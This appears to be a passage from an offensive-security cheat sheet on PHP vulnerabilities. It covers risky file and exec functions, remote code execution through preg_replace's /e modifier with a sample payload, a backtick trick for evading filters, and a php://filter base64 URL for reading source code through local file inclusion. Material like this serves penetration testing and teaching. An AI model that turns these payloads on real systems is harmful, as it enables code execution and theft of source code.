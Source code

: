 File / File system bugs:
```php
fopen()
readfile()
glob()
file()
popen()
exec()
```

> <https://0xzoidberg.wordpress.com/2010/05/26/vulnerable-php-functions/>

#### RCE with PREG Functions

- implement regular expressions for the preg_ functions (preg_match, preg_replace)
- `/e` modifier which allows evaluation of PHP code in the preg_replace

Example:

```php
<?php
$string = "this is my lower sting";
print preg_replace('/(.*)/e', 'strtoupper("\\1")', '$string');
?>

// THIS IS MY LOWER STING
```

Example Attack:
```php
<?php
$string = "phpinfo()";
print preg_replace('/^(.*)/e', 'strtoupper(\\1)', $string);
?>
```

Filter Evasion:
- Prevent single quote and escape chars

```php
Following will fail: $string = "system('ls -lah')";

Bypass: $string = "`ls -lah`";
```

> - Ref: <http://www.madirish.net/402>

#### LFI with Filter Inclusion

- Useful when LFI is possible but ".php" is appended at end (and not vulnerable to null byte injection)
- `filter/convert.base64-encode` forces PHP to base64 encode the file before it is used in the require statement (`index​.php`) <http://example.com/?page=php://filter/convert.base64-encode/resource=index​>

#### LFI with Zip Inclusion (Include a file inside a zip)
